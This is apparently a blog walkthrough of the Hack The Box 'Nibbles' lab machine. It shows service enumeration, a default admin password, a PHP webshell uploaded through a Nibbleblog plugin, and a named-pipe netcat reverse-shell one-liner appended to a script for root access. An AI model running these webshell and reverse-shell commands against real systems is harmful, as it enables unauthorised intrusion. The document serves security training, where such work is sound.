11 minutes
Nibbles Machine HTB

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
Enumeration
We need to start by mapping the target network. To do this, we’ll use Nmap with several flags:
- The -sV flag helps us get the service versions running on the ports.
- The –open flag shows only open ports.
- The -n flag tells Nmap not to resolve DNS, which can speed up the scan.
- The -oA flag generates output in all available formats (Nmap, grepable, XML, etc.).
These options will give us a comprehensive view of the target’s network structure and services.
❯ nmap -sV --open -n -oA nibbles_initial_scan 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 20:52 -03
Nmap scan report for 10.10.10.75
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
From the result of out scanning we can see
- Port 22: SSH service (OpenSSH, running on Ubuntu 4ubuntu2.2)
- Port 80: HTTP service (Apache web server version 2.4.18)
Running common scripts from Nmap on ports 80 and 22
- The -sC flag stands for “script scan” or “default script scan”.
- It runs a set of scripts that are considered safe and useful for general reconnaissance.
- These scripts are part of the Nmap Scripting Engine (NSE).
- They can provide additional information about the target, such as service details, vulnerabilities, or misconfigurations.
The -sC option is equivalent to –script=default in Nmap. It’s a popular choice for initial scans because it can reveal valuable information without being overly intrusive or time-consuming.
❯ nmap -sC -p22,80 -n -oA nibbles_script_scan 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 20:55 -03
Nmap scan report for 10.10.10.75
Host is up (0.22s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open http
|_http-title: Site doesn't have a title (text/html).
Nmap done: 1 IP address (1 host up) scanned in 7.59 seconds
There was no useful information from this scan so we can continue enumerating the target.
Checking the website running on port 80 (HTTP)
As soon as we type the target IP on our browser the website displayed it’s just a simple h1 tag with the phrase “Hello World”. We assume there’s nothing interesting here…
But let’s remember that there could always be something else hidden out there, especially if we see a cheesy message like “Hello World”, so why not check the source code of the page to see if we can find any clues.
And there we have it, it seems that our intuition was right. So we could write down that address and see if we can find anything.
Sometimes developers leave messages between themselves while they are building the site and for some reason forget to delete it… even credentials have been found in other scenarios.
Checking our finding /nibbleblog/
As soon as we type /nibbleblog after the IP address the browser takes us to a new page where we seem to find an administration panel or something similar. Let’s save it for later, it may be useful.
Something that would be very useful is to know what is nibbleblog, googling it we find the repository at https://github.com/dignajar/nibbleblog and its creator tells us that nibbleblog is: Easy, fast and free CMS Blog. All you need is PHP to work.
Looking for Technologies used in the site
There are many ways to know what technologies are used behind a website, and for us that’s worth gold. Each piece we find along the way will help us solve the riddle. One way to find out this information is by using a tool called whatweb from our terminal.
❯ whatweb http://10.10.10.75/nibbleblog
http://10.10.10.75/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], RedirectLocation[http://10.10.10.75/nibbleblog/], Title[301 Moved Permanently]
http://10.10.10.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
Reading the output of whatweb is not very difficult…let’s break it down in pieces
1.First response (CODE 301 Moved Permanently):
- URL: “http://10.10.10.75/nibbleblog”
- Status: 301 Moved Permanently
- Web Server: Apache 2.4.18 running on Ubuntu Linux
- IP: 10.10.10.75
- Redirect: To “http://10.10.10.75/nibbleblog”
2.Second response (CODE 200 OK):
- URL: “http://10.10.10.75/nibbleblog/”
- Status: 200 OK
- Web Server: Apache 2.4.18 on Ubuntu Linux
- IP: 10.10.10.75
Technologies detected:
- Cookies: PHPSESSID (indicates PHP session usage)
- HTML5
- JQuery
- Nibbleblog (CMS)
- Page Title: “Nibbles - Yum yum”
Looking for exploits on Nibbleblog
Searching in google we can see that there is an exploit for nibbleblog v4.0.3 that allows us to upload arbitrary files which we can use with the metasploit tool.
If we enter the site <www.exploit-db.com/exploits/38489> and read the source code we can see that it targets the URI /admin.php.
This could be helpful later on when we list the files contained in the website. What we still need to know is what version is running on our target. So let’s write it down in our TODO list.
Enumerating web subdirectories
Now that we have some information about our target we should know what the structure of the website is. For this we will use gobuster one of the most useful tools to enumerate subdirectories in a web site. It should be noted that there are many other tools that perform a similar function but we will focus on this one for the moment, as its syntax is friendly and easy to use.
gobuster -u [URL/IP] -w [WORDLIST] --> syntax's
gobuster -u 10.10.10.75 -w /opt/useful/seclist/Discovery/some-dictionary.txt
We can also use other flags if needed like:
- -t: Number of concurrent threads (default is 10)
- -x: File extensions to search for
- -o: Output file to write results to
- -k: Skip TLS certificate verification
- -b: Status codes to blacklist (ignore)
- -s: Status codes to whitelist (only show these)
From the result obtained, some directories/files stand out at first sight: /admin , /admin.php and /README. Let’s see what we can find there.
/README
From the information shown in the README we are 100% sure that the website is vulnerable to the exploit found at <www.exploits-db.com>.
/admin
In this directory I have spent a long time looking through all the directories and files but there is nothing that is interesting.
/admin.php (login page)
We seem to be getting closer to our goal, we were able to locate a login form for the administrator tools.
One thing we could do is try to guess the password and username using the most common combinations such as admin/admin, administrator/admin123 and others.
But let’s remember that we were warned that a blacklisting service is running in the background. So a brute force attack would be out of the question.
Re-checking gobuster output
If we look again at the gobuster output we can see that another overlooked directory is available: /content . Let’s see what it has.
/private
We went directly to the /private directory because it is more likely to find something of interest here than in the public/ or tmp/ directories.
Looks like there are some nice XML files here!
An XML file is a document that uses Extensible Markup Language (XML), which is a markup language designed to store and transport data in a format that is both human-readable and machine-readable
shadow.php –> unreacheable
users.xml
A user called admin exist, also we can confirm again about the blacklist function.
config.xml
We found an email for the admin and the email used for nibbleblog
Getting the admin password
Something that catches our attention once we read the whole xml document is that the word nibbles appears in several occasions, also we could find that the password for the admin account was set during the installation by default. So maybe the password is a generic one? Is the password for the admin user nibbles?
So going back to the login page (/admin.php) and typing nibbles as the password we got access to the admin dashboard
Enumerating the Admin Dashboard
-
Publish –> Allow us to make a simple post, video post, quote post, new page.
-
Comments –> allow us to see the comments on the page, nothing here.
-
Manage –> Allow us to manage post, pages and categories. The categories page have some functionality to add a new one.
-
Setting –> General settings, In comments we can deactivate the Sanitize HTML option (XSS possible attack), there are others setting for the comments like moderate comment can be deactivated and i can change the spam control to low detection level.
-
themes –> nothing interesting here
-
Plugins –> this section show us the plugins already installed and there are other plugins available to install.
Uploading PHP code to the My image plugin
Once listed the functionalities that the website has, we can see that in the plugins section there is an especially interesting one which allows us to upload files/images to the site.
If we remember the exploit that nibblesblog has and now that we know that the version that is running is vulnerable we could try injecting PHP code to see if we have luck (remember that PHP is the language that is used behind on the server. See whatweb results)
What we must do is to write the following code in the terminal and save it in a file with php extension called myImage.php
echo '<?php system('id'); ?>' > myImage.php
or
touch myImage.php
nano myImage.php --> paste the code into the file and save it
Once this is done we only have to upload the file and see if we get the desired result. Do not panic if you see a lot of errors in the body of the website.

Now we must find where the file was hosted once it was successfully uploaded. And if we remember from the listing we did with gobuster there was a directory private/ with the directory plugins/ inside. So let’s see if our file was saved there.

went to my_image/

And there is the file we uploaded, now let’s try to run it and see if it works. We can run it from the URL or using curl from the terminal. Let’s try first from the url.
Browser 
Terminal 
Getting a Reverse shell
Now that we know that the PHP code executes perfectly we can modify it to obtain a reverse shell.
Then using the netcat tool we will listen on the port indicated in the file containing the reverse shell.
nc -lvnp 9443
Once executed if everything went well we should get the reverse shell and therefore access to the server.

The terminal we have is quite simple, so if we execute the following python line we can have more options to work in the terminal, such as ctrl+L to clean the terminal.
python3 'import pty; pty.spawn("/bin/bash")'
Getting the flag
Now that we are inside the machine we can go to the user’s home folder and there we will find the file containing the flag.
Privilege escalation
Inside the nibbler user’s home folder there is a zip file called persona.zip.
We are going to decompress it using the unzip tool (there are others that we can use as 7z or tar to perform the same task).
If we investigate its content we will find a .sh file which listing it with the command ls -l we can see that it has the permission type 4744 (setuid permission) which allows us to run it with the privileges of the root user.
What we must do with this file is first of all to know that we must not change under any circumstances the content of it, that is why we are going to add a line of code to it which will give us another reverse shell but this time as if we were the root user. This line is called oneliner.
Inside this oneliner we must put our ip address (the one in tun0) and the port in which we are going to be listening with netcat.
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 8443 >/tmp/f' | tee -a monitor.sh
Before executing the monitor.sh file, let’s remember to listen to netcat.
nc -lvnp 8443
Then let’s run the file and we will get the reverse shell as the root user. We perform the same step as with the other reverse shell to get an enhanced shell.
python3 -c 'import pty; pty.spawn("/bin/bash")'
Once obtained the reverse shell and being inside the machine as the root user, we go directly to your home folder (as we did with the user nibbler) and there we will find the flag.
I hope you liked this step by step on how to solve the Nibbler machine, although this was tagged as an easy machine is complicated by the fact of the number of steps to be performed to get into it.
Do not be discouraged if you are stuck in any machine or exercise, remember to stay calm and always think objectively!
2221 Words
2024-07-15 12:00